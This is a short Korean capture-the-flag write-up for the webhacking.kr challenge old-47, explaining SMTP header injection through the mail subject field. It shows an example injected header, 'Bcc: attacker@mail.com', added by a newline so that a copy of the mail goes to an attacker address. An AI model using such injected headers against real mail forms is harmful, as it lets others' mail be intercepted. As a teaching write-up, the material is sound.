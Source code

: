 ```yaml
---
title: ["[Webhacking.kr] old-47 (misc - 15)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, misc, smtp]
---
```


```
Mail subject : Flag of webhacking.kr old-47 chall
```  

send 버튼을 누르면 메일이 보내진다.  
제목에 인젝션이 가능하고 메일의 본문을 읽으면 될 것 같다.  

SMTP Injection은 이메일 서버와 통신하는 애플리케이션의 취약점을 이용한 공격 기법이다.  
다양한 인젝션 포인트가 있는데, 헤더 인젝션은 개행을 이용해 새로운 헤더를 추가할 수 있다.  

```
From: admin@mail.com
To: user@mail.com
Subject: Hello
```  
정상적인 SMTP 헤더가 이렇게 생겼을 때, 개행을 이용해 헤더를 추가하면 아래와 같이 메일을 전송받을 수 있다.

```
From: admin@mail.com
To: user@mail.com
Subject: Hello
Bcc: attacker@mail.com
```  
Bcc(Blind carbon copy)는 숨은 참조이다.  

이런개념으로 subject에 인젝션을 해주면, flag가 출력된다.  
실제로 메일이 보내지지는 않는 것 같다.  